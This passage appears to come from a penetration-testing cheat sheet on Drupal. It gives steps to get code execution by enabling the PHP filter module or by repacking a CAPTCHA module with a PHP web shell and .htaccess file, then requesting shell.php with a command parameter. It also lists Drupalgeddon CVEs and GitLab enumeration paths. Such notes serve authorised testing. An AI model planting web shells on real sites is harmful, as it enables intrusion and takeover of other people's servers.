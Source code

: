 - **Version > 8**: Install the PHP filter module

  1. Download 

     ```bash
     wget https://ftp.drupal.org/files/projects/php-8.x-1.1.tar.gz
     ```

  2. Go to Administration &rarr; Reports &rarr; Available updates (or in the Extend menu)

  3. Install &rarr; Previous exploit

- **Upload a new Module** (administrative access)

  1. Select a module and download it, e.g. CAPTCHA

     ```bash
     wget --no-check-certificate https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz; tar xvf captcha-8.x-1.2.tar.gz
     ```

  2. Create PHP Shell File

  3. Create a `.htaccess` File

     ```html
     <IfModule mod_rewrite.c>
     RewriteEngine On
     RewriteBase /
     </IfModule>
     ```

  4. Create  an archive

     ```bash
     mv shell.php .htaccess captcha
     tar cvf captcha.tar.gz captcha/
     ```

  5. Upload:

     - click on Manage &rarr; Extend &rarr; Install new module`

     - Request: `/modules/captcha/shell.php?p=[CMD]`

- **Drupalgeddon**

  - [Drupalgeddon](https://www.drupal.org/SA-CORE-2014-005) 7.0 - 7.31 pre-authenticated SQL injection
  - [Drupalgeddon2](https://www.drupal.org/sa-core-2018-002)<7.58, 8.5.1 RCE
  - [Drupalgeddon3](https://cvedetails.com/cve/CVE-2018-7602/) 7.x, 8.x RCE

### Gitlab

##### Enumeration

- Version: `/help` when logged in
- Public projects: `/explore`
- Users: `/users/sign_up`
